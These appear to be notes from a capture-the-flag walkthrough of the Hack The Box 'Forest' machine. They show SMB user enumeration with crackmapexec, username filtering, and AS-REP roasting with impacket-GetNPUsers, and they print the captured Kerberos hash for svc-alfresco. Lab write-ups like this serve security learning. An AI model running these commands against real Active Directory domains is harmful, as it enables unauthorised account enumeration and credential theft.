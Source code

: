  


119
Got domain name from smb.

https://seuforia.wordpress.com/2018/09/19/do-not-require-kerberos-pre-authentication-for-users-create-by-ambari-on-ad/


```
 crackmapexec smb 10.10.10.161 --users |tee smb.users
 
cat smb.users|awk -F" " '{print$5}'|grep htb|sed 's/htb.local\\/\n/'> users.txt



┌──(kali㉿kali)-[~/HTB/Forest]
└─$ cat users.txt|grep -v root |grep -v Health* |grep -v SM* > valid_users.txt 


──(kali㉿kali)-[~/HTB/Forest]
└─$ cat valid_users.txt  
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
sebastien
lucinda
svc-alfresco
andy
mark
santi



```
getting kerberos ticket
https://seuforia.wordpress.com/2018/09/19/do-not-require-kerberos-pre-authentication-for-users-create-by-ambari-on-ad/
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat
https://medium.com/r3d-buck3t/kerberos-attacks-as-rep-roasting-2549fd757b5

```
└─$ impacket-GetNPUsers  htb/ -dc-ip 10.10.10.161 -usersfile ./valid_users.txt -request -format john -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB:973f4a4fa9f5bd1f541da70005b0685e$9fb58fb298bd7ea3730d280adbd6c29267871d358312115fd7a6c13b751b86240682c8c376de6dbfe0b4900aee322bfa65c85b142211a8d687d481c5627b0dd6b1ef3a42851120c8f36c21dd5ea06b038ea39100b67d25e5b51ae39a729d01bf2e84840d183dbaa8706a20a8040d5e2a23e2bdae4fa89f6b5e30c6986b605fa89babd39c96c2a6a532c26114e020d8fe2df9a3d0160a94b958fd01589931ff4dd3ab2d8b91ad2238d2c7953891129b4972e900df8a376f8dc3f3e6a509d2cee854259b60959bbfb724978577d562e8b989123cf1d544a963f76eb919146c1a2c
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

```